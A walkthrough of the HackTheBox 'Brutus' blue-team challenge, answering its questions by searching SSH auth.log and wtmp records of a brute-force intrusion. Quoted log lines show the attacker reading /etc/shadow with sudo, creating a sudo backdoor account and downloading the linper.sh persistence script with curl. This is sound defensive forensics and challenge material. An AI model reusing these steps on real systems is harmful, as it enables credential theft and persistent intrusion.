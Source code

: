 ```yaml
---
title: Brutus
date: 2025-03-29
difficulty: very-easy
tags: linux, wtmp
---
```


This is Brutus, an easy blue team challenge on HackTheBox.

```
$ 7z x Brutus.zip

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:4 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 4242 bytes (5 KiB)

Extracting archive: Brutus.zip
--
Path = Brutus.zip
Type = zip
Physical Size = 4242


Enter password (will not be echoed): [hacktheblue]
Everything is Ok

Files: 2
Size:       55047
Compressed: 4242
```

We have two files:

- `auth.log`
- `wtmp`

Let's go over each of the questions:

### 1. Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

Answer: `65.2.161.68`. This can be deduced from the `auth.log` file where there are many log entries regarding login attempts from this IP address:

```
Mar  6 06:31:39 ip-172-31-35-28 sshd[2398]: Failed password for invalid user svc_account from 65.2.161.68 port 46840 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2396]: Failed password for invalid user svc_account from 65.2.161.68 port 46800 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2400]: Failed password for invalid user svc_account from 65.2.161.68 port 46854 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2399]: Failed password for root from 65.2.161.68 port 46852 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2407]: Failed password for root from 65.2.161.68 port 46876 ssh2
Mar  6 06:31:39 ip-172-31-35-28 sshd[2383]: Received disconnect from 65.2.161.68 port 46722:11: Bye Bye [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2383]: Disconnected from invalid user svc_account 65.2.161.68 port 46722 [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Received disconnect from 65.2.161.68 port 46732:11: Bye Bye [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2384]: Disconnected from invalid user svc_account 65.2.161.68 port 46732 [preauth]
Mar  6 06:31:39 ip-172-31-35-28 sshd[2409]: Failed password for root from 65.2.161.68 port 46890 ssh2
```

### 2. The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

Just below the lines I mentioned above, we find this:

```
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
```

This clearly shows a succesful login as the `root` user.

### 3. Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

```
$ utmpdump -f wtmp | grep root | grep 65.2.161.68

{"Type":7,"Pid":2549,"Device":"pts/1","Id":"","User":"root","Host":"65.2.161.68","Exit":{"Termination":0,"Exit":0},"Session":0,"Time":"Wed, 06 Mar 2024 07:32:45 CET","Addr":"65.2.161.68"}
```

Searching through the `wtmp` file, we can find an entry for a session as `root` coming from the `65.2.161.68` address, and it has a timestamp of `Wed, 06 Mar 2024 07:32:45 CET`, converted to UTC yields `2024-03-06 06:32:45`.

### 4. SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

We can use some filtering commands to find the session number in the `auth.log` file for the `root` session opened at the same time (1 second off) as the succesful login:

```
$ cat auth.log | grep root | grep session | grep 06:32

Mar  6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

### 5. The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```
$ cat auth.log | grep sudo

Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

We can see a `cyberjunkie` user being created and being added to the `sudo` group shortly after.

### 6. What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Let's check the MITRE ATT&CK matrix on the website:

![matrix](./images/matrix.png)

Then we can select the "Create Account" sub-technique:

![subtechnique](./images/subtechnique.png)

We will find a sub-technique ID of `T1136.001`.

### 7. What time did the attacker's first SSH session end according to auth.log?

```
$ cat auth.log | grep root | grep closed | grep ssh

Mar  6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session closed for user root
Mar  6 06:31:41 ip-172-31-35-28 sshd[2399]: Connection closed by authenticating user root 65.2.161.68 port 46852 [preauth]
Mar  6 06:31:41 ip-172-31-35-28 sshd[2407]: Connection closed by authenticating user root 65.2.161.68 port 46876 [preauth]
Mar  6 06:31:42 ip-172-31-35-28 sshd[2409]: Connection closed by authenticating user root 65.2.161.68 port 46890 [preauth]
Mar  6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

We know the relevant line here is the last one, because the first line was logged before the malicious user even gained access to the system.

### 8. The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

Since we know higher privileges were used, we can search for anything involving `sudo`:

```
$ cat auth.log | grep sudo | grep -i command

Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

The full command being executed using `sudo` is `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

## Conclusion

That wraps up Brutus! I hope you had as much fun puzzling your way through this one as I did!
